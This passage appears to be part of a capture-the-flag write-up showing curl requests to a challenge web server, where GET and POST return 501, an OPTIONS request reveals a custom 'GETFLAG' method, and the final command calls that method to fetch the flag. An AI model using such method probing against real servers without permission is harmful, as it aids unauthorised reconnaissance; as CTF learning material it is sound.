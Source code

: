 ```
<title>501 Not Implemented</title>
</head><body>
<h1>Not Implemented</h1>
<p>GET to /index.php not supported.<br />
</p>
* Closing connection 0
</body></html>
```

curl -X POST -v http://140.110.112.31:3001/index.php
```
*   Trying 140.110.112.31...
* Connected to 140.110.112.31 (140.110.112.31) port 3001 (#0)
> POST /index.php HTTP/1.1
> Host: 140.110.112.31:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 501 Not Implemented
< Date: Sun, 20 May 2018 07:18:07 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 200
< Connection: close
< Content-Type: text/html
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>501 Not Implemented</title>
</head><body>
<h1>Not Implemented</h1>
<p>POST to /index.php not supported.<br />
</p>
* Closing connection 0
```

curl -X OPTIONS  -v http://140.110.112.31:3001/index.php
```
*   Trying 140.110.112.31...
* Connected to 140.110.112.31 (140.110.112.31) port 3001 (#0)
> OPTIONS /index.php HTTP/1.1
> Host: 140.110.112.31:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 20 May 2018 07:18:40 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Allow: GETFLAG,OPTIONS
< Content-Length: 0
< Content-Type: text/html
< 
* Connection #0 to host 140.110.112.31 left intact

```
curl -X GETFLAG  -v http://140.110.112.31:3001/index.php

